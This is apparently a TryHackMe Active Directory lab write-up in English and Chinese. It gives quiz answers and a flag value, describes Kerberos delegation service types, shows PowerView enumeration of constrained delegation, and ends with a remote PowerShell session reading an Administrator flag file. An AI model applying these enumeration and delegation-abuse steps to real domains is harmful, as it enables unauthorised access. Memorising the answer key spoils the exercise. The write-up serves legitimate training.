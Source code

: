 Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

za\t2_henry.harvey@THMWRK1 C:\Users\t2_henry.harvey>whoami
za\t2_henry.harvey

za\t2_henry.harvey@THMWRK1 C:\Users\t2_henry.harvey>hostname
THMWRK1

za\t2_henry.harvey@THMWRK1 C:\Users\t2_henry.harvey>

```

> Which ACE would allow you to update any non-protected parameter of a target object?

> GenericWrite

> What is the value of the flag stored on the Desktop of the Administrator user on THMWRK1 (flag1.txt)?

> THM{Permission.Delegation.FTW!}

# Task 3  Exploiting Kerberos Delegation

## 可以委派的服务类型

**HTTP** - Used for web applications to allow pass-through authentication using AD credentials.（用于 Web 应用程序以允许使用 AD 凭据进行直通身份验证）
**CIFS** - Common Internet File System is used for file sharing that allows delegation of users to shares.（通用 Internet 文件系统用于文件共享，允许用户委派共享）
**LDAP** - Used to delegate to the LDAP service for actions such as resetting a user's password.（用于委托 LDAP 服务执行操作，例如重置用户密码）
**HOST** - Allows delegation of account for all activities on the host.(允许为主机上的所有活动委派帐户)
**MSSQL** - Allows delegation of user accounts to the SQL service for pass-through authentication to databases.(允许将用户帐户委派给 SQL 服务，以对数据库进行直通身份验证。)

## 约束委派利用

枚举约束委派
```
PS C:\> Import-Module C:\Tools\PowerView.ps1 
PS C:\> Get-NetUser -TrustedToAuth 


logoncount               : 34
badpasswordtime          : 8/11/2022 1:52:18 PM
distinguishedname        : CN=IIS Server,CN=Users,DC=za,DC=tryhackme,DC=loc
objectclass              : {top, person, organizationalPerson, user}
displayname              : IIS Server
lastlogontimestamp       : 8/11/2022 12:23:51 PM
userprincipalname        : svcIIS@za.tryhackme.loc
name                     : IIS Server
objectsid                : S-1-5-21-3885271727-2693558621-2658995185-6155
samaccountname           : svcIIS
codepage                 : 0
samaccounttype           : USER_OBJECT
accountexpires           : NEVER
countrycode              : 0
whenchanged              : 8/11/2022 11:23:51 AM
instancetype             : 4
usncreated               : 78494
objectguid               : 11e42287-0a25-4d73-800d-b62e2d2a2a4b
sn                       : Server
lastlogoff               : 1/1/1601 12:00:00 AM
msds-allowedtodelegateto : {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc,  
                           http/THMSERVER1}

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> cd c:/users/administrator/desktop
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> ls
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> type flag2.txt